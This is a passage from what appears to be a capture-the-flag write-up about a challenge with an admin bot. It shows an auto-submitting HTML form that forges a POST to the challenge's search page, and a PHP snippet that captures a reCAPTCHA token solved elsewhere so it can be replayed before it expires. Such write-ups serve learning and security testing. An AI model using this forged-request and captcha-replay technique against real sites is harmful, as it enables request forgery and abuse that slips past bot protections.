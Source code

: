 ## Bypass everything

We don't really need to validate it locally.
we just need to send the correct captcha to the admin bot.

### Poisoned Form

Since the page only accepts POSTs, we need to craft a poisoned form, that automatically triggers a POST to the search page:

```html
<html>
    <form action="http://google.us.ctf.so/search.php?q=my-search-text" method="POST" name="f" id="search">
        <input type="text" name="q" dir="ltr" value="my-search-text"/>
        <input type="hidden" name="g-recaptcha-response" value="CORRECT-g-recaptcha-response-HERE"/>
        <input type="hidden" name="btnG" value="Google Search"/>
    </form>

    <script>
        frm = document.getElementById("search");
        frm.submit();
    </script>
</html>
```

**Summary**
- This is a form simulating all the values used in the `search.php` page.
- The query (`q`) value is in the querystring and as a form value.
- There is a placeholder for the correct recaptcha response (we'll get there).
- There is a javascript submitting the form automatically.

When the Admin Bot loads this form, it calls the search.php automatically... but we did not solve the captcha yet.

### Captcha Bypass

After solving the captcha in our attacker browser, the response is valid for the correct domain for 2 minutes.

This is time enough for sending the poisoned form to the bot with the correct value!

To avoid changing a lot of things manually, I changed my local page to save the g-captcha-response in the server.

```php
if ($_SERVER['REQUEST_METHOD'] !== "POST") {
    die("no recaptcha");
}

if(!isset($_POST['g-recaptcha-response'])){
    die("no recaptcha");
}
    
$captcha=$_POST['g-recaptcha-response'];

file_put_contents('g-recaptcha-response', $captcha);

die($captcha);
```
